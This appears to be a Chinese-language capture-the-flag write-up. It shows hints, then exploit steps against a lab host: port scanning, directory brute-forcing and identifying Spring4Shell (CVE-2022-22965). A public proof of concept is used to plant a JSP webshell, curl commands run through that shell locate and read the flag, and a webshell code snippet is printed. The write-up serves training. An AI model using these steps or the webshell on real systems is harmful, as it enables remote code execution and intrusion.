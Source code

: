 [提示三]
也許有公開的POC使用?

[提示四]
Webshell + URL Encode

[提示五]
找不到資料?使用linux指令find / -type f –name 來找看看吧
#### Exploit
1. 先用nmap掃Port -> 8888
2. dirsearch看sub folder -> hello
    ```bash
    $ dirsearch -u "http://192.168.100.88:8888"
    ...
    400   795B   http://192.168.100.88:8888/\..\..\..\..\..\..\..\..\..\etc\passwd
    400   795B   http://192.168.100.88:8888/a%5c.aspx
    302     0B   http://192.168.100.88:8888/hello    -> REDIRECTS TO: /hello/
    ...
    ```
3. 得知路徑為http://192.168.100.88:8888/hello/greeting
4. 根據AccessLogValve得知漏洞應該為CVE-2022-22965
5. 直接使用[現成工具](https://github.com/sunnyvale-it/CVE-2022-22965-PoC)達到RCE
    ```bash
    $ python exploit-core.py --url "http://192.168.100.88:8888/hello/greeting" --file shell
    [*] Resetting Log Variables.
    [*] Response code: 200
    [*] Modifying Log Configurations
    [*] Response code: 200
    [*] Response Code: 200
    [*] Resetting Log Variables.
    [*] Response code: 200
    [+] Exploit completed
    [+] Check your target for a shell
    [+] File: shell.jsp
    [+] Shell should be at: http://192.168.100.88:8888/shell.jsp?cmd=id
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=find%20/%20-iname%20flag.txt --output -
    /usr/local/share/man/flag.txt
    $ curl http://192.168.100.88:8888/shell.jsp\?cmd\=cat%20/usr/local/share/man/flag.txt --output -
    CSC{FLAG_can_we_cut_to_the_chase?}
    
    //
    - java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } -
    ```
    記得要注意URL encode
    Flag: `CSC{FLAG_can_we_cut_to_the_chase?}1`